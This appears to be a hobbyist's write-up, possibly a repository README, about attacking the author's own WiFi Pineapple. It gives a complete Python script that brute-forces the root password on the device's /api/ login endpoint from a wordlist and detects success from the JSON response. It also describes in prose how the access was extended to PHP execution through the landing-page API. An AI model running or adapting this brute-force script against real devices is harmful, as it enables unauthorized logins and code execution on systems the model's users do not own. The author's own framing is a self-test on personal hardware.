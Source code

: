 LetsHack my wifi pineapple. 

I was bored in my office and haven't ever really gotten to use my pineapple for hacking, so I decided to hack it. I'm hacking it assuming the management interface is exposed. I'll dive into the API and look for exploits some other time, however lockout isn't either available or configured on my pineapple, so we can brute force the login. 

I've changed my wifi pineapple's password to '1337' so we can develop a brute force script as a PoC.

Let's fire up Burp and see how login's are processed. 

![Alt text](wifi_pinepple_login.png)

Cool, just a POST request with some JSON to /api/. I fooled around with shaving off some of the headers and JSON params and ultimately we just need the request, HOST header, and the JSON key:values except time. We can see from the following screenshots that we can look for true / false in the response to the POST request to find out whether or not the correct password was used.

![Alt text](logged_in_false.png)

![Alt text](logged_in_true.png)

Let's take a small password list (https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt) and add 1337 to it then get to work building a brute force script.

```
#!/usr/bin/env python3


import requests ## module to build the POST request
import sys ## Just to eend the script when password is found


### Below is the request, the request module has awesome docs,check it out
def brute(arg1):
    r = requests.post("http://172.16.42.1:1471/api/index.php",
    json = {"system":"authentication",
    "action":"login",
    "username":"root",
    "password":arg1}, ## line from list is checked as password
    headers={"Host":"172.16.42.1:1471"})

    if "true" in r.text: ## remember that true is in the response
        print("Password is {}".format(arg1))
        sys.exit(0) ## we already found the password, so stahp
    else:
        pass

with open('wordlist','r') as wordlist: ## open wordlist and read it
    for line in wordlist: ## for every line in wordlist
        brute(line.rstrip()) ## password test function
```

Hey it worked.

![Alt text](hey_it_worked.png)

From there I used some of the API's I found while poking around. I'll do a more thorough write up later, but it works. Brute force to shell access (this is so much more fun than SSH).

***EDIT***
Basically all I did to finish the rest of the exploit was use Burp to follow the API's through changing and then enabling the landing page. After doing this I just used that information to code it into the script and then a final GET request to the landing page to trigger the PHP.

![Alt text](pwn_apple.png)

